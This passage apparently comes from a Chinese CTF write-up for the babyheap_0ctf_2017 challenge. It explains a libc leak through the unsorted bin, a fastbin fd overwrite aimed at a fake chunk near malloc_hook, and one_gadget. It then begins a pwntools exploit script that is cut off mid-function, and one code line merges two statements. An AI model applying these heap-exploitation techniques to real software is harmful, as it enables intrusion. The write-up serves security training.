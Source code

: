 我们就可以知道unsorted bins 的地址了，也可以知道libc的地址了

```python
main_arena = unsortedbin_addr - 0x58libc_base = main_arena - 0x3c4b20
```

我们现在得到了关于libc的地址，接下来可以试着使用one_gadget和malloc_hook 

<aside>
💡 我在这道题才知道malloc_hook原来可以用在calloc上，惊了真的

</aside>

我们注意，此时我们能够修改的方式只有通过改chunk的值，所以在我们进行修改的时候我们必须从malloc_hook附近的一个地方开始将malloc_hook包含进来

![https://img-blog.csdnimg.cn/cf427a7b17f54c7c9817fdc0a1ea6fdc.png](https://img-blog.csdnimg.cn/cf427a7b17f54c7c9817fdc0a1ea6fdc.png)

我们可以试出，这个地址是和libc_base偏移恒定的，同时我们可以这样构造

![https://img-blog.csdnimg.cn/161e7f22f25047ae808a342162f74274.png](https://img-blog.csdnimg.cn/161e7f22f25047ae808a342162f74274.png)

可以看出这个0x7f，这是在fastbins的范围里面（甚至可以说是最大的值了）

malloc(0x60)，将4号free，顺便拆分，变成0x70大小的chunk，进入fastbins，然后通过2号仍旧存在的指针修改其fd为0x7f718b3c3aed，也就是假chunk的地址，这样就可以进行malloc_hook修改了

总体代码：

```python
from pwn import *
import warnings
from LibcSearcher import *

warnings.filterwarnings("ignore")
sh=process("./babyheap_0ctf_2017")
# sh = remote("node4.buuoj.cn","29436")

elf=ELF("./babyheap_0ctf_2017")
free_got=elf.got['free']

#context.log_level='debug'

def allocate(size):
    sh.recvuntil("Command: ")
    sh.sendline('1')
    sh.recvuntil("Size: ")
    sh.sendline(str(size))

def fill(idx, size, content):
    sh.recvuntil("Command: ")
    sh.sendline('2')
    sh.recvuntil("Index: ")
    sh.sendline(str(idx))
    sh.recvuntil("Size: ")
    sh.sendline(str(size))
    sh.recvuntil("Content: ")
    sh.sendline(content)

def myfree(idx):
    sh.recvuntil("Command: ")
    sh.sendline('3')
    sh.recvuntil("Index: ")
    sh.sendline(str(idx))

def dump(idx):
    sh.recvuntil("Command: ")
    sh.sendline('4')
    sh.recvuntil("Index: ")
```